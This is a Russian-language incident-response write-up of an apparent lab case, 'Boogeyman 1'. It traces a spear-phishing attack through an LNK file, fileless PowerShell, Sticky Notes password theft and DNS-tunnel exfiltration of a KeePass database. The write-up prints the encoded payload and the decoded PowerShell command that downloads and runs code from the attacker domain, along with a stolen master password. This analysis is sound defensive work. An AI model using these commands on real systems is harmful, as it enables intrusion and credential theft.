



DFIR Investigation: Case "Boogeyman 1"

1. Executive Summary
  Инцидент: Фишинговая атака с последующей эксфильтрацией данных.  

  Дата: Январь 2023 года (согласно именам файлов).  

  Критичность: CRITICAL.  

  Вердикт: True Positive. Подтверждена кража финансовых данных и мастер-паролей

2. Victim Information
   
   Name: Julianne Westcott.
   
   Email: julianne.westcott@hotmail.com.
   
   Organization: Quick Logistics LLC.
   
   Department: Finance.

3. Indicators of Compromise (IoC)

  
  Figure 1: Initial phishing email analysis and relay identification.
  
4. Phase 3: Data Exfiltration & Network Analysis

  4.1. Delivery Analysis (Initial Access)
  Первоначальный доступ был получен через целевую Spear-Phishing рассылку,
  направленную на сотрудников финансового отдела.

  
    
    * Вектор атаки: Электронное письмо от имени бизнес-партнера (B Packaging Inc.) 
    на адрес julianne.westcott@hotmail.com

    * Анализ инфраструктуры: Заголовки DKIM-Signature и List-Unsubscribe 
    указывают на использование легитимного сервиса Elastic Email (elasticemail) в
    качестве mail relay. Это позволило атакующему успешно пройти проверки репутации
    и избежать блокировки спам-фильтрами.

    * Typosquatting: Домен отправителя bpakcaging.xyz визуально имитирует реальный
    домен партнера. Ошибка в написании (отсутствие буквы k в слове packaging)
    ориентирована на невнимательность пользователя.

    * Социальная инженерия: Тема письма о задолженности создавала состояние 
    срочности. Использование запароленного архива Invoice.zip (Pass: Invoice2023!) 
    служило для обхода автоматизированных систем анализа вложений (песочниц).

    * Payload: Внутри архива находился файл Invoice_20230103.lnk (Windows Shortcut). 
    Запуск ярлыка инициировал выполнение обфусцированной PowerShell-команды для 
    загрузки следующей стадии вредоносного ПО.
    
  4.2. Installation & Execution (Анализ полезной нагрузки)
  После запуска ярлыка Invoice_20230103.lnk в системе стартовал процесс установки 
  вредоносного ПО. Основным инструментом на этом этапе выступил интерпретатор       
  PowerShell, использованный для выполнения скрытых команд.

  1. Извлечение и декодирование Payload
  
  С помощью инструмента LNKParse3 в поле аргументов командной строки ярлыка была
  обнаружена следующая Base64-строка:
           "aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA=="

Figure 3: LNK file analysis revealing encoded PowerShell payload in command line arguments

Figure 4: LNK file analysis revealing encoded PowerShell payload in command line arguments
  После декодирования была получена команда:
    iex (new-object net.webclient).downloadstring('http://files[.]bpakcaging.xyz/update')
  
  2. Технический анализ команды

     Метод: Использование объекта Net.WebClient и метода DownloadString
     позволяет загрузить содержимое скрипта напрямую в оперативную память, минуя
     сохранение файла на диск (техника Fileless Malware).

     Протокол и C2: Загрузка осуществляется по протоколу HTTP с сервера
     files.bpakcaging.xyz. Файл update является скриптом второй стадии атаки.

     Использование IEX: Команда IEX (Invoke-Expression) немедленно исполняет
     загруженную строку кода.

  3. Почему это критично (Критика безопасности):

     Для аналитика использование IEX совместно с загрузкой из сети — это High-
     Confidence Indicator вредоносной активности. Такая связка позволяет атакующему:

       Обходить сигнатурные сканеры антивирусов (так как файл не пишется на диск).

       Динамически менять полезную нагрузку на стороне сервера.

       Выполнять произвольный код в контексте прав текущего пользователя (Julianne Westcott).
    
Figure 3: Identification of DNS exfiltration traffic and C2 communication.

4.3. Privilege Escalation & Discovery (Разведка и сбор данных)

  После закрепления в системе (Execution) атакующий перешел к фазе внутреннего 
  сканирования (Discovery) с целью поиска конфиденциальной информации и путей для 
  повышения привилегий.

1. Инвентаризация системы (Seatbelt)

   Анализ логов PowerShell (Event ID 4104) зафиксировал загрузку и выполнение
   инструмента Seatbelt.

     Механизм: Утилита была запущена непосредственно в памяти через IEX,
     что подтверждается поиском специфических ключей в логах (например, команд для
     сбора UACConfiguration, DotNet, InterestingFiles).

    Цель: Автоматизированный сбор данных о конфигурации безопасности,
    установленных патчах и потенциальных векторах для Privilege Escalation.

2. Доступ к чувствительным данным (Sticky Notes)

  В ходе мониторинга активности была обнаружена работа с консольным SQLite-клиентом sq3.exe.

    Объект атаки: База данных приложения Microsoft Sticky Notes.

    Путь к файлу:
    
      C:\Users\j.westcott\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8we
      kyb3d8bbwe\LocalState\plum.sqlite

      Техника: Использование легитимной утилиты для чтения системных баз данных
      (техника Living off the Land - LotL). Анализ логов выявил SQL-запросы к таблице
      Note, содержащей текстовые данные заметок пользователя.

3. Анализ извлеченных данных

   Выбор цели (Sticky Notes) обоснован спецификой поведения пользователей,
   часто хранящих в заметках:

        Пароли и учетные данные (включая Master Password от KeePass).

        Номера банковских карт и PIN-коды.

        Ссылки на внутренние ресурсы и VPN-конфигурации.

   Результат этапа: В ходе анализа HTTP-трафика и логов подтверждено извлечение
   мастер-пароля: %p9^3!lL^Mz47E2GaT^y. Этот пароль стал критическим звеном для
   следующего этапа атаки — вскрытия зашифрованного хранилища паролей.

4.4. Exfiltration (DNS Tunneling)

Заключительным этапом атаки стал вывод (эксфильтрация) похищенной базы паролей
protected_data.kdbx. Для обхода сетевых экранов (Firewalls) и систем обнаружения
вторжений (IDS) атакующий использовал скрытый канал передачи данных через протокол DNS.

1. Метод и инструменты

   Техника: DNS Tunneling (T1048.003). Использование DNS-запросов в качестве транспорта для данных.

   Инструментарий: Стандартная утилита Windows nslookup. Это позволило
   реализовать технику Living-off-the-Land (LotL), минимизируя риск обнаружения по
   сигнатурам стороннего ПО.

   Подготовка: Логи PowerShell (Event ID 4104) зафиксировали скрипт, который
   считывал файл в байтовом виде и конвертировал его в HEX-строку для последующей передачи частями.

2. Анализ сетевого трафика

   Анализ capture.pcapng выявил аномально высокую активность DNS-запросов типа A к домену bpakcaging.xyz.

      Структура запроса: [HEX_DATA].bpakcaging.xyz.

      Аналитика: Каждый поддомен представлял собой фрагмент полезной нагрузки. DNS
      был выбран из-за того, что запросы к 53 порту часто не проходят глубокую
      инспекцию (DPI), что делает этот канал идеальным для скрытного вывода небольших
       объемов данных (баз паролей, конфигов).

3. Процесс восстановления (Data Reconstruction)

   Для подтверждения факта кражи данных была проведена реконструкция файла с
   помощью tshark. Из сетевого трафика были извлечены все уникальные HEX-фрагменты,
   исключая служебные поддомены (cdn, files):

       tshark -r capture.pcapng -Y "dns.qry.name contains bpakcaging.xyz" -T fields -e dns.qry.name | cut -d '.' -f 1 | grep -vE "cdn|files" | uniq | tr -d '\n' > recovered.hex

   Результат: После преобразования полученной HEX-строки обратно в бинарный формат
   был восстановлен валидный файл protected_data.kdbx. С использованием ранее
   добытого мастер-пароля база была успешно открыта, что подтвердило полную
   компрометацию учетных данных пользователя.
   
5. MITRE ATT&CK Mapping

   TA0001 - Initial Access: Phishing: Spearphishing Attachment (T1566.001).
   
   TA0002 - Execution: Command and Scripting Interpreter: PowerShell (T1059.001).
   
   TA0007 - Discovery: System Information Discovery (T1082) via Seatbelt.
   
   TA0010 - Exfiltration: Exfiltration Over Alternative Protocol: DNS (T1048.003).
